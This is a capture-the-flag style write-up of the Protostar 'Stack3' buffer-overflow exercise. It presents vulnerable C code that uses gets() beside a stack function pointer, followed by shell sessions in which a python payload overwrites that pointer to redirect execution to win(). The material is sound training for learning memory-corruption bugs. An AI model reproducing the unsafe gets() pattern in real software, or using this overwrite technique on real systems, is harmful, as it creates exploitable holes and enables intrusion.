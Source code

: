 #### Stack3

###### About

- Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

- Hints
	- Both ``gdb`` and ``objdump`` is your friend you determining where the ``win()`` function lies in memory.
	
- This level is at ``/opt/protostar/bin/stack3``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*68" | ./stack3
calling function pointer, jumping to 0x41414141
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep win
08048424 <win>:
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*64 +'\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$
```



